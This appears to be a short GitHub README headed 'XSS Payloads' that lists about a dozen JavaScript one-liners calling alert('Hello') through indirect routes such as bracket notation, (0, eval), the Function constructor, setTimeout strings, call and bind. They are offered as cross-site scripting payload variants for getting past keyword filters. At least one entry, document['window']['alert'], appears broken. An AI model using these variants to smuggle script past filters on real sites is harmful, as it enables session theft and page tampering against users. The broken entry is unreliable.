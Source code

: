 # XSS_Payloads2

XSS payloads

## Array Notation  
`window['alert']('Hello');`

## Chained Array Notation  
`this['window']['alert']('Hello');`

## Indirect Reference Using Call/Apply  
`(0, eval)('alert("Hello")');`

## Calling via Function Constructor  
`(new Function('alert("Hello")'))();`

## SetTimeout or SetInterval  
`setTimeout('alert("Hello")', 0);`

## Indirect Reference with call  
`window.alert.call(this, 'Hello');`

## Using bind  
`const alertBind = alert.bind(window);
alertBind('Hello');`

## anon functions  
`(() => alert('Hello'))();`

## Self-Invoking Function with alert  
`(function(){ alert('Hello'); })();`

## Function call  
`Function.prototype.call.call(alert, window, 'Hello');`

## Global this  
`(this || window).alert('Hello');`

## chaining doc and window  
`document['window']['alert']('Hello');`

## Reclusive indirect function calling  
`(((f) => f(f))((f) => alert('Hello')))();`
